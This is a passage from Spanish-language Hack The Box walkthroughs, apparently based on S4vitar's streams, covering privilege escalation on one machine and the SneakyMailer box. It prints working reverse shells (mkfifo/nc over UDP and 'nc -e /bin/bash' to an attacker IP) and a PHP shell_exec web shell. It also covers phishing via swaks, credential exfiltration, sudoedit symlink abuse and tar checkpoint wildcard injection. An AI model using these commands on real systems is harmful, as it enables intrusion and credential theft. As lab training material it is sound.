\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2-3-medium.txt http://127.0.0.1/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos el recurse \texttt{/console}

\hypertarget{consola-interactiva}{%
\subsection*{Consola Interactiva}\label{consola-interactiva}}
\addcontentsline{toc}{subsection}{Consola Interactiva}

Estamos en frente de una consola interactiva donde se puede ejecutar code en python

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ os}

\NormalTok{os.system(}\StringTok{'whoami'}\NormalTok{)}
\CommentTok{#Output}
\DecValTok{0}
\end{Highlighting}
\end{Shaded}

En este caso la respuesta al lado del servidor es \texttt{0}. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
\texttt{os.popen(\textless{}command\textgreater{}).read()} para ver el output normal.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.popen(}\StringTok{'whoami'}\NormalTok{).read()}
\CommentTok{#Output}
\CommentTok{'Werkzeug'}
\end{Highlighting}
\end{Shaded}

El comando funcionna. Ahora intentamos \textbf{pingear} nuestra maquina de atacante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  En la consola interactiva python

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.system(}\StringTok{'ping -c 1 10.10.14.20'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el comando
\texttt{os.popen(\textquotesingle{}cat\ /etc/passwd\textquotesingle{}).read()} nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recomienda encriptar la respuesta en base 64 para despues decodificarlo en la maquina de atacante con el comando
\texttt{echo\ "\textless{}cadena\ codificada\ en\ base64\textgreater{}"\ \textbar{}\ base64\ -d;\ echo}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.popen(}\StringTok{'base64 -w 0 /etc/passwd'}\NormalTok{).read()}
\NormalTok{os.popen(}\StringTok{'base64 -w 0 /etc/iptables/rules.v4'}\NormalTok{).read()}
\end{Highlighting}
\end{Shaded}

El iptables nos muestra con la linea \texttt{-A\ OUTPUT\ -o\ ens33\ -p\ tcp\ -m\ state\ -\/-state\ NEW\ -j\ DROP} que la maquina victima nos
va a rechazar todas las comunicaciones por \textbf{TCP}. Es por esta razon que no hemos creado directamente una reverse shell.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-3}{%
\section*{Explotacion de vulnerabilidad \& Ganando acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-3}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando acceso}

\hypertarget{reverse-shell-por-udp}{%
\subsection*{Reverse shell por UDP}\label{reverse-shell-por-udp}}
\addcontentsline{toc}{subsection}{Reverse shell por UDP}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante con el parametro \texttt{-u}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u -nlvp 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

1.en la consola interactiva

\begin{verbatim}
```python
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
```
\end{verbatim}

Y ya esta\ldots{}

\hypertarget{tratamiento-de-la-tty-3}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-3}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina-2}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-2}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{werkzeug}

\BuiltInTok{cd}\NormalTok{ /home/alekos}
\FunctionTok{cat}\NormalTok{ user.txt}
\end{Highlighting}
\end{Shaded}

No podemos leer la flag. Quiere decir que vamos a tener que convertirnos en el usuario alekos.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

El comando \texttt{sudo\ -l} nos dice que podemos ejecutar \texttt{sudoedit\ /var/www/*/*/layout.html} como el usuario alekos.

\hypertarget{escalada-de-privilegios-2}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-2}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{escalada-de-privilegios-al-usuario-alekos}{%
\subsection*{Escalada de privilegios al usuario alekos}\label{escalada-de-privilegios-al-usuario-alekos}}
\addcontentsline{toc}{subsection}{Escalada de privilegios al usuario alekos}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /var/www}
\end{Highlighting}
\end{Shaded}

No tenemos capacidad de escritura en el directorio \texttt{/var/www} pero hay un directorio testing donde el usuario proprietario es werkzeug.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/testing}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{mkdir}\NormalTok{ hannamod}
\BuiltInTok{cd}\NormalTok{ !$}
\BuiltInTok{echo} \StringTok{"Hola"} \OperatorTok{>}\NormalTok{ layout.html}
\end{Highlighting}
\end{Shaded}

Testeamos el comando \textbf{sudoedit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sudoedit}\NormalTok{ -u alekos /var/www/testing/hannamod/layout.html}
\end{Highlighting}
\end{Shaded}

El comando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un enlace symbolico contra el \textbf{authorized\_keys} del usuario alekos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ln}\NormalTok{ -s -f /home/alekos/.ssh/authorized_keys layout.html}
\end{Highlighting}
\end{Shaded}
\item
  Nos creamos un par de claves

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh-keygen}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el \textbf{sudoedit} y copiamos la clave publica creada
\item
  Nos conectamos al usuario alekos por ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id-rsa alekos@10.10.10.21}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Pa dentro\ldots{} somos alekos y podemos leer la flag.

\hypertarget{escalada-de-privilegios-al-usuario-root}{%
\subsection*{Escalada de privilegios al usuario root}\label{escalada-de-privilegios-al-usuario-root}}
\addcontentsline{toc}{subsection}{Escalada de privilegios al usuario root}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

vemos que hay dos directorios

\begin{itemize}
\tightlist
\item
  backup
\item
  development
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ backup}
\FunctionTok{stat}\NormalTok{ *}
\FunctionTok{stat}\NormalTok{ * }\KeywordTok{|} \FunctionTok{grep} \StringTok{"Modify"}
\end{Highlighting}
\end{Shaded}

En el directorio backup vemos que cada 5 minutos una tarea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u -nlvp 443 }\OperatorTok{>}\NormalTok{ dev-1627332901.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ dev-1627332901.tar.gz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un comando del estilo: \texttt{tar\ -cvf\ backup/test.tar.gz\ /home/alekos/development/*}.
Aqui el problema es que si el comando es este, el simbolo \texttt{*} permitteria burlar el comando tar con breakpoints. Lo que queremos ejecutar seria
el comando siguiente:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{tar}\NormalTok{ -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh}
\end{Highlighting}
\end{Shaded}

El echo es que si el comando de la tarea cron tiene el asterisco y que ficheros tienen nombres como \texttt{-\/-checkpoint=1} y \texttt{-\/-checkpoint-action=exec/bin/sh},
en vez de copiarlos, los utilizaria como argumentos del proprio comando tar.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch}\NormalTok{ privesc}
\FunctionTok{chmod}\NormalTok{ +x privesc}

\FunctionTok{nano}\NormalTok{ privesc}

\CommentTok{############privesc content##############3}

\CommentTok{#!/bin/bash}

\FunctionTok{chmod}\NormalTok{ 4755 /bin/bash}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch}\NormalTok{ -- }\StringTok{'--checkpoint=1'}
\FunctionTok{touch}\NormalTok{ -- }\StringTok{'--checkpoint-action=exec=sh privesc'}
\end{Highlighting}
\end{Shaded}

Ya esta esperamos hasta el proximo run de la tarea cron.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{watch}\NormalTok{ -n 1 ls -l /bin/bash -d}
\end{Highlighting}
\end{Shaded}

Cuando vemos que la /bin/bash tiene el \texttt{s} de SUID podemos convertirnos en root

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\end{Highlighting}
\end{Shaded}

\hypertarget{sneakymailer}{%
\chapter*{SneakyMailer}\label{sneakymailer}}
\addcontentsline{toc}{chapter}{SneakyMailer}

\hypertarget{introduccion-4}{%
\section*{Introduccion}\label{introduccion-4}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 26/07/2021 se llama SneakyMailer
.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1098850596}{Twitch: S4vitaar SneakyMailer maquina}

\hypertarget{enumeracion-4}{%
\section*{Enumeracion}\label{enumeracion-4}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-4}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-4}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-4}{%
\subsubsection*{Ping}\label{ping-4}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.197}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que tratandose de ttl 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-4}{%
\subsubsection*{Nmap}\label{nmap-4}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.197 }
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.197 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,22,25,80,143,993,8080 10.10.10.197 -oX targetedXML}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Conexion como Anonymous &\tabularnewline
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
25 & smtp & Por detras hay algo rel. email &\tabularnewline
80 & http & Redirect to sneakycorp.htb hosts &\tabularnewline
143 & IMAP & Connectar para listar contenido mail & usuario y contraseña\tabularnewline
993 & squid-proxy & Browsear la web por este puerot & Checkear el exploit\tabularnewline
8080 & http & Browsear la web por este puerto & Checkear la web\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{ftp}{%
\subsubsection*{FTP}\label{ftp}}
\addcontentsline{toc}{subsubsection}{FTP}

Intentamos conectarnos como anonymous.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.197}
\OperatorTok{>} \ExtensionTok{Name}\NormalTok{ : anonymous}
\end{Highlighting}
\end{Shaded}

\hypertarget{whatweb-2}{%
\subsubsection*{Whatweb}\label{whatweb-2}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.197}
\end{Highlighting}
\end{Shaded}

Hay un redirect a \texttt{sneakycorp.htb}

\hypertarget{add-sneakycorp.htb-host}{%
\subsubsection*{Add sneakycorp.htb host}\label{add-sneakycorp.htb-host}}
\addcontentsline{toc}{subsubsection}{Add sneakycorp.htb host}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ /etc/hosts}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/hosts-sneakycorp} \caption{hosts sneakycorp.htb}\label{fig:unnamed-chunk-9}
\end{figure}

\hypertarget{checkear-la-web-del-puerto-8080}{%
\subsubsection*{Checkear la web del puerto 8080}\label{checkear-la-web-del-puerto-8080}}
\addcontentsline{toc}{subsubsection}{Checkear la web del puerto 8080}

Abrimos la web y vemos cosas:

\begin{itemize}
\tightlist
\item
  Ya estamos logeados
\item
  Hay mensajes de collegasos, pinchamos pero no passa nada
\item
  Proyecto pypi testeado a 80\%
\item
  Proyecto POP3 y SMTP testeado completamente
\item
  Es possible installar modulos con pip en el servidor
\item
  Hay un enlace a Team y vemos una lista de emails
\end{itemize}

\hypertarget{recuperar-la-lista-de-email-con-curl}{%
\subsubsection*{Recuperar la lista de email con CURL}\label{recuperar-la-lista-de-email-con-curl}}
\addcontentsline{toc}{subsubsection}{Recuperar la lista de email con CURL}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://sneakycorp.htb/team.php"} \KeywordTok{|} \ExtensionTok{html2text} \KeywordTok{|} \FunctionTok{grep} \StringTok{"@"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \OperatorTok{>}\NormalTok{ email.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{evaluacion-de-vulnerabilidades-4}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-4}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{swaksear-la-lista-de-email}{%
\subsection*{Swaksear la lista de email}\label{swaksear-la-lista-de-email}}
\addcontentsline{toc}{subsection}{Swaksear la lista de email}

Es comun que en algunos servicios mail, nos podemos conectar al servidor y enviar email con un correo que no existe bajo el servidor indicado.
Se puede hacer con la herramienta \textbf{swaks}. Aqui lo hacemos por el puerto \textbf{25}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 80}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{swaks}\NormalTok{ --to }\VariableTok{$(}\FunctionTok{cat}\NormalTok{ email.txt }\KeywordTok{|} \FunctionTok{tr} \StringTok{'\textbackslash{}n'} \StringTok{','}\VariableTok{)}\NormalTok{ --from }\StringTok{"s4vitar@sneakymailer.htb"}\NormalTok{ \textbackslash{}}
\NormalTok{--header }\StringTok{"Subject: EEEEEEEE"}\NormalTok{ --body }\StringTok{"OH DIOS MIO ES DIAMOND JACKSON -> http://10.10.14.20/diamondjackson.jpg"}\NormalTok{ \textbackslash{}}
\NormalTok{--server 10.10.10.197}
\end{Highlighting}
\end{Shaded}

Ya vemos que podemos enviar el mail y que ademas alguien a pinchado el enlace. Ademas como utilizamos \textbf{nc} y no \textbf{python}
podemos ver la data enviada en raw. En la data vemos que podemos ver el usuario, el email y su password en formato url encode.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{php}\NormalTok{ --interactive}

\OperatorTok{>} \ExtensionTok{print}\NormalTok{ urldecode()}\StringTok{"firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt"}
\end{Highlighting}
\end{Shaded}

Ya vemos la contraseña del usuario en texto claro.

Intentamos conectar por \textbf{SSH} y \textbf{FTP} pero nada

\hypertarget{conectar-por-el-imap-con-nc}{%
\subsection*{Conectar por el IMAP con NC}\label{conectar-por-el-imap-con-nc}}
\addcontentsline{toc}{subsection}{Conectar por el IMAP con NC}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Logear por IMAP con NC

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.197 143}

\ExtensionTok{A1}\NormalTok{ login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju}\KeywordTok{`}\ExtensionTok{hqcHl}\OperatorTok{<}\NormalTok{:Ht}
\CommentTok{#Output}
\ExtensionTok{A1}\NormalTok{ OK LOGIN Ok.}
\end{Highlighting}
\end{Shaded}
\item
  Listar el contenido

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A2}\NormalTok{ LIST }\StringTok{""} \StringTok{"*"}
\end{Highlighting}
\end{Shaded}
\item
  Seleccionar INBOX

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A3}\NormalTok{ SELECT }\StringTok{"INBOX"}
\end{Highlighting}
\end{Shaded}
\item
  Seleccionar los mensajes enviados

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A4}\NormalTok{ SELECT }\StringTok{"INBOX.Sent"}
\end{Highlighting}
\end{Shaded}
\item
  Seleccionar los items enviados

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A5}\NormalTok{ SELECT }\StringTok{"INBOX.Sent Items"}
\end{Highlighting}
\end{Shaded}
\item
  Seleccionar lo que hay en la papelera

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A6}\NormalTok{ SELECT }\StringTok{"INBOX.Deleted Items"}
\end{Highlighting}
\end{Shaded}
\item
  Vemos que hay dos elementos en los items enviados, los recuperamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A7}\NormalTok{ FETCH 1:2 BODY[]}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio \textbf{Pypi}

Con el usuario y contraseña intentamos volver a conectar con \textbf{FTP}

\hypertarget{conexion-con-ftp}{%
\subsection*{Conexion con FTP}\label{conexion-con-ftp}}
\addcontentsline{toc}{subsection}{Conexion con FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.197}

\OperatorTok{>} \ExtensionTok{Name}\NormalTok{: developer}
\OperatorTok{>} \ExtensionTok{Password}\NormalTok{: contraseña}
\CommentTok{#Output}
\ExtensionTok{Connection}\NormalTok{ succesful}

\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ dev}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Aqui vemos el contenido de la web. Nos creamos la famosa \texttt{s4vishell.php}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \KeywordTok{echo} \StringTok{"<pre>"}\NormalTok{. }\FunctionTok{shell_exec}\OtherTok{(}\KeywordTok{$_REQUEST}\OtherTok{[}\StringTok{'cmd'}\OtherTok{])}\NormalTok{ . }\StringTok{"</pre>"}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

ahora con el ftp subimos el archivo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ s4vishell.php}
\CommentTok{#Output}
\ExtensionTok{transfer}\NormalTok{ complete}
\end{Highlighting}
\end{Shaded}

Controlamos en la web si vemos el fichero \texttt{http://sneakycorp.htb/s4vishell.php} pero tenemos un \emph{404 NOT FOUND}.
Intentamos con otras url:

\begin{itemize}
\tightlist
\item
  \texttt{http://sneakycorp.htb/s4vishell.php}
\item
  \texttt{http://10.10.10.197:8080/s4vishell.php}
\item
  \texttt{http://10.10.10.197:8080/dev/s4vishell.php}
\end{itemize}

pero nada. Aqui pensamos en que podria tener otros subdominios.

\hypertarget{descubrimientos-de-subdominios-de-dos-formas}{%
\subsection*{Descubrimientos de subdominios de dos formas}\label{descubrimientos-de-subdominios-de-dos-formas}}
\addcontentsline{toc}{subsection}{Descubrimientos de subdominios de dos formas}

\hypertarget{descubrimiento-de-subdominios-con-gobuster}{%
\subsubsection*{Descubrimiento de subdominios con GOBUSTER}\label{descubrimiento-de-subdominios-con-gobuster}}
\addcontentsline{toc}{subsubsection}{Descubrimiento de subdominios con GOBUSTER}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gobuster}\NormalTok{ vhost -u http://sneakycorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt}
\end{Highlighting}
\end{Shaded}

Encontramos el subdominio \texttt{dev.sneakycorp.htb}

\hypertarget{descubrimiento-de-subdominios-con-wfuzz}{%
\subsubsection*{Descubrimiento de subdominios con WFUZZ}\label{descubrimiento-de-subdominios-con-wfuzz}}
\addcontentsline{toc}{subsubsection}{Descubrimiento de subdominios con WFUZZ}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hw=12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H }\StringTok{"Host: FUZZ.sneakycorp.htb"}\NormalTok{ http://10.10.10.197}
\end{Highlighting}
\end{Shaded}

Encontramos el subdominio \texttt{dev.sneakycorp.htb}

\hypertarget{retocamos-en-hosts}{%
\subsubsection*{Retocamos en hosts}\label{retocamos-en-hosts}}
\addcontentsline{toc}{subsubsection}{Retocamos en hosts}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ /etc/hosts}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/hosts-dev-sneakycorp} \caption{hosts dev.sneakycorp.htb}\label{fig:unnamed-chunk-10}
\end{figure}

\hypertarget{browsear-el-nuevo-dominio}{%
\subsection*{Browsear el nuevo dominio}\label{browsear-el-nuevo-dominio}}
\addcontentsline{toc}{subsection}{Browsear el nuevo dominio}

Como aqui ya tenemos un nuevo dominio browseamos la web en \texttt{dev.sneakycorp.htb/s4vishell.php} y ahora si encontramos nuestra webshell.

\begin{itemize}
\tightlist
\item
  whoami con \texttt{dev.sneakycorp.htb/s4vishell.php?cmd=whoami}
\item
  verificamos si estamos en un contenedor con \texttt{dev.sneakycorp.htb/s4vishell.php?cmd=hostname\ -I}
\end{itemize}

no es el caso y tenemos capacidad de remote code execution. Ahora intentamos ganar acceso al sistema.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-4}{%
\section*{Explotacion de vulnerabilidad \& Ganando acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-4}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando acceso}

\hypertarget{crear-una-reverse-shell-con-s4vishell.php}{%
\subsection*{Crear una reverse shell con s4vishell.php}\label{crear-una-reverse-shell-con-s4vishell.php}}
\addcontentsline{toc}{subsection}{Crear una reverse shell con s4vishell.php}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Escuchamos por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dev.sneakycorp.htb}\NormalTok{/}\ExtensionTok{s4vishell.php?cmd}\NormalTok{=nc -e /bin/bash 10.10.14.20 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{tratamiento-de-la-tty-4}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-4}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{descubrimiento-de-la-maquina}{%
\subsection*{Descubrimiento de la maquina}\label{descubrimiento-de-la-maquina}}
\addcontentsline{toc}{subsection}{Descubrimiento de la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /home}
\BuiltInTok{cd}\NormalTok{ low}
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ .ssh}
\FunctionTok{ls}
\FunctionTok{cat}\NormalTok{ authorized_keys}
\FunctionTok{ps}\NormalTok{ -fawwx}
\end{Highlighting}
\end{Shaded}

Vemos la flag pero no podemos leerla. Huele a que nos tenemos que convertir al usuario \textbf{low}. Tambien vemos un recurso \textbf{Pypi} con
un fichero de credenciales tipo \texttt{.htpasswd}

\begin{verbatim}
cat /var/www/pypi.sneakycorp.htb/.htpasswd
\end{verbatim}

Vemos la contraseña del usuarion \textbf{pypi}. La copiamos en la maquina de atacante y tratamos de romperla con \textbf{John}

Por ultimo se puede ver un nuevo subdominio llamado \texttt{pypi.sneakycorp.htb}, lo introduzimos en el \texttt{/etc/hosts}

\hypertarget{crackeo-con-john-1}{%
\subsection*{Crackeo con John}\label{crackeo-con-john-1}}
\addcontentsline{toc}{subsection}{Crackeo con John}

Copiamos el contenido del fichero .htpasswd en un fichero llamado hash

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Hemos podido crackear la contraseña del usuario pypi

\hypertarget{descubrimiento-de-la-configuration-nginx}{%
\subsection*{Descubrimiento de la configuration NGINX}\label{descubrimiento-de-la-configuration-nginx}}
\addcontentsline{toc}{subsection}{Descubrimiento de la configuration NGINX}

Intentando conectarnos a la web por el subdominio \texttt{pypi.sneakycorp.htb}, vemos que hay una redirection automatica al domino normal.
Sabiendo que estamos en frente de un \textbf{NGINX}, analizamos como el reverse proxy esta configurado.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /etc/nginx}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ sites-enabled}
\FunctionTok{cat}\NormalTok{ sneakycorp.htb}
\FunctionTok{cat}\NormalTok{ pypi.sneakycorp.htb}
\end{Highlighting}
\end{Shaded}

Hay ya vemos que para ir al subdominio \texttt{pypi.sneakycorp.htb} tenemos que pasar por el puerto \textbf{8080}, y efectivamente si browseamos
la web con \texttt{pypi.sneakycorp.htb:8080} ya podemos ver la web del \textbf{pypi server}

\hypertarget{crear-un-packete-malicioso-para-pypi}{%
\subsection*{Crear un packete malicioso para pypi}\label{crear-un-packete-malicioso-para-pypi}}
\addcontentsline{toc}{subsection}{Crear un packete malicioso para pypi}

